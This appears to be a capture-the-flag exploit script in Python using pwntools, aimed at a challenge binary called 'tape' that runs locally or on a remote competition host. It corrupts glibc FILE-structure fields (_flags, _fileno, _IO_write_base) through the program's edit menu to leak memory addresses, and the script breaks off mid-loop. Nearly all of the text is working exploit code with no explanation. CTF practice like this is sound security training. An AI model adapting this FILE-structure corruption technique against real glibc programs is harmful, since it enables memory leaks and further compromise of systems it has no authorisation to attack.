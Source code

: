 ```python
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    log.critical("{} -> {}".format(s, hex(addr)))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8, b'\x00'))
    else:
        return u64(rl().strip().ljust(8,b'\x00'))

def conn(local=1):
    global p, libc, elf
    pc = './tape'
    libc = ELF('./libc.so.6')
    elf = ELF(pc)

    if local == 1:
        p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
        #p = process(pc,aslr=aslr)
    else:
        remote_addr = ['tape.nc.jctf.pro', 1337]
        p = remote(remote_addr[0], remote_addr[1])

def rewind():
    ru("> \n")
    sn("2")

def edit(idx, off, data):
    ru("> \n")
    sn("1")

    ru("Index: \n")
    sl(str(idx))
    ru("Offset: \n")
    sl(str(off))
    ru("Data: \n")
    sn(data)

def bye():
    ru("> \n")
    sn("0")

if __name__ == "__main__":
    while True:
        try:
            conn()

            rewind()
            edit(2, 0, p16(0x3c80)) # _flags
            edit(1, 0x38, p8(1)) # _fileno
            edit(1, 0xb0+1, p8(0x40)) # _wide_data->_IO_write_base+1
            edit(1, 0x10+1, p8(0x40)) # _IO_write_base
            rewind()
            leak = ru(b"1. Write")[:-8]
            if len(leak) > 0:
                break
            else:
                raise EOFError
        except EOFError:
```